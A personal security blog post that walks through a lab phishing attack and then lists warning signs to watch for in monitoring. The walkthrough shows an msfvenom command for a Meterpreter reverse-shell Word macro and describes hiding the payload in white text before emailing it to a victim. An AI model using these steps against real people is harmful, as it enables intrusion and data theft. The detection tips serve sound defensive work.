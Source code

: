 Home [CyberZombi3](https://cyberzombi3.github.io/CyberZombi3.co.uk/)

# PhishMe

Phish Me.........
Apologies for the lack of posts, I've been a little busy lately with getting a room sorted for my recently announced little one, along with my GPEN and my OSCP and just life in general, things have been a little manic to say the least.

Anyway I wanted to post something along the lines of Phishing and how it may look in my Splunk app, Mitre Att&ck Monitoring. Then whilst I was working on it I realised I cant really show everything I would want as I don't have that setup within my lab, So I guess will demo how to create a malicious document, email it to a victim to run and then talk a little about what to look out for.

The below is just a high level view of the above mentioned process with what tools I have available to me.

So I created a macro and payload using MsfVenom with the following command - msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.140.17 LPORT=4545 -e x86/shikata_ga_nai -f vba-exe

![Image](https://github.com/CyberZombi3/CyberZombi3.co.uk/blob/master/PhishMe/Images/1x.png?raw=true)

This then goes off and creates some vba code and a payload both need to be inserted into your malicious word document, it looks a little like below.

![Image](https://github.com/CyberZombi3/CyberZombi3.co.uk/blob/master/PhishMe/Images/2x.png?raw=true)

![Image](https://github.com/CyberZombi3/CyberZombi3.co.uk/blob/master/PhishMe/Images/3x.png?raw=true)

These then need to be added into the Word doc as you can see below. Just go ahead and copy and paste the code into the blank vba screen.

![Image](https://github.com/CyberZombi3/CyberZombi3.co.uk/blob/master/PhishMe/Images/4x.png?raw=true)

Create a nice looking document that suits the needs of your victim. Notice below the grey shaded area, that's the payload code that for this demo I have shrunk down the text size and changed the colour to white just so its not immediately seen, this could be hidden in an image or the footer that's really up to you how you want to go about hiding it.

![Image](https://github.com/CyberZombi3/CyberZombi3.co.uk/blob/master/PhishMe/Images/5x.png?raw=true)

So now were ready to send the email. It appears in the victims inbox as expected.

![Image](https://github.com/CyberZombi3/CyberZombi3.co.uk/blob/master/PhishMe/Images/6x.png?raw=true)

The user then opens the file and the payload runs. The user maybe prompted to enable editing. I found that that wasn't always the case when playing around with this. From then on in we can see in Splunk the word doc and what looks to be a strange looking executable ran at the time of execution.

![Image](https://github.com/CyberZombi3/CyberZombi3.co.uk/blob/master/PhishMe/Images/7x.png?raw=true)

This can then be confirmed from your newly gained Meterpreter session. Below we see the creation and the connection made.

![Image](https://github.com/CyberZombi3/CyberZombi3.co.uk/blob/master/PhishMe/Images/8x.png?raw=true)

![Image](https://github.com/CyberZombi3/CyberZombi3.co.uk/blob/master/PhishMe/Images/9x.png?raw=true)

As the attacker you can then go off and do what it is you need to do, escalate privileges, steal data etc etc.

So I also wanted to talk about what you can lookout for in your monitoring tools, things like -

obscure file names
office applications spawning processors
office applications attempting to connect to unknown URL's
discovery commands being ran by strange user accounts, maybe at strange times of the day, for example whoami ipconfig net accounts.
.HTA files within emails
If there are links in the email, hover over them to check the URL
if possible configure IDS / IPS & APT
Educate users via phishing simulations

The Splunk app I'm working on looks for all types of things based off the Mitre Att&ck framework but 1 or 2 events alone doesn't automatically mean malicious activity is occurring, with my app I want to get your attention by highlighting a whole bunch of events, then you will need to manually go off and build that bigger picture of an incident if there is one of course.

Below there are a few screenshots, I've mentioned it in some of my previous posts so you may have seen it before. I could probably release it as is now although its far from complete and currently does not cover the entire MA framework, let me know what you think.

![Image](https://github.com/CyberZombi3/CyberZombi3.co.uk/blob/master/PhishMe/Images/10x.png?raw=true)

![Image](https://github.com/CyberZombi3/CyberZombi3.co.uk/blob/master/PhishMe/Images/11x.png?raw=true)


For anyone wanting to have a play around with Phishing I came across the Morning Catch VM a while back and although it's a little dated now it still does the job.

Find out more about it here - https://blog.cobaltstrike.com/2014/08/06/introducing-morning-catch-a-phishing-paradise/

Obviously the information above should not be used to be internationally malicious and if that is your choice I cannot be held responsible for any of your actions, this post is for educational purpose only.

Find me on Twitter @CyberZombi3

Cheers


